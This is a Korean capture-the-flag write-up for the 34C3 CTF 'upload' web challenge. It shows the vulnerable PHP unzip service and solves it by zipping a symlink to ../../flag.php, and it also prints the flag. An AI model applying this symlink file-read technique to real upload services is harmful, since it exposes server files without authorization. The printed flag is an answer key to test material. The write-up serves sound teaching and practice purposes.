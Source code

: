 # [2017_34C3CTF] \[WEB] upload

## Key words

* Symbolic link

## Description

```
This is an useful service to unzip some files.

We added a flag for your convenience.
```

## Solution

`http://35.197.205.153/flag.php`에 소스코드로 플래그가 존재합니다.

```php
<?php
$UPLOADS = '/var/www/uploads/';
if(!empty($_FILES['uploaded_file'])) {
    $paths = scandir($UPLOADS);
    $now = time();
    foreach($paths as $path) {
        if ($path == '.') {
            continue;
        }
        $mtime = filemtime($UPLOADS . $path);
        if ($now - $mtime > 120) {
            shell_exec('rm -rf ' . $UPLOADS . $path);
        }
    }
    $path = $UPLOADS . uniqid('upl') . '/';
    if(!mkdir($path, 0777, true)) {
        die('mkdir failed');
    }
    $zip = $path . uniqid('zip');
    if(move_uploaded_file($_FILES['uploaded_file']['tmp_name'], $zip)) {
        shell_exec('unzip -j -n ' . $zip . ' -d ' . $path);
        unlink($zip);
        header('Location: uploads/'. basename($path) . '/');
    } else {
        echo 'There was an error uploading the file, please try again!';
    }
} else {
?>
<!DOCTYPE html>
<html>
<head>
    <title>Upload your files</title>
</head>
<body>
<?php
    if (@$_GET['source']) {
        highlight_file(__FILE__);
    } else {
?>
    <form enctype="multipart/form-data" method="POST">
        <p>Upload your file</p>
        <input type="file" name="uploaded_file"></input><br />
        <input type="submit"></input>
    </form>
    <a href="?source=1">Show source</a>
</body>
</html>
<?php
    }
}
?>
```

php 소스코드가 주어지며, zip 파일을 업로드하면 이를 압축 해제하여 저장해주는 기능을 제공합니다. `flag.php`를 읽어와야 하는데 크게 두가지 방법이 있습니다. 첫째는 php 파일을 업로드하는 것이고, 둘째는 심볼릭링크를 이용하는 것입니다. 웹쉘을 업로드하여 접속해보면 업로드 디렉토리에는 실행 권한이 없어서 웹쉘이 실행되는 것이 아니라 다운로드됩니다.

```
$ ln -s ../../flag.php ddd
lrwxr-xr-x  1 delspon  staff   14  1  1 11:00 ddd -> ../../flag.php
```

위처럼 `flag.php`에 심볼릭 링크를 건 후, 압축하여 업로드하면 flag.php를 읽어올 수 있습니다.

```php
<?php
$flag = "34C3_unpack_th3_M1ss1ng_l!nk"
?>
```

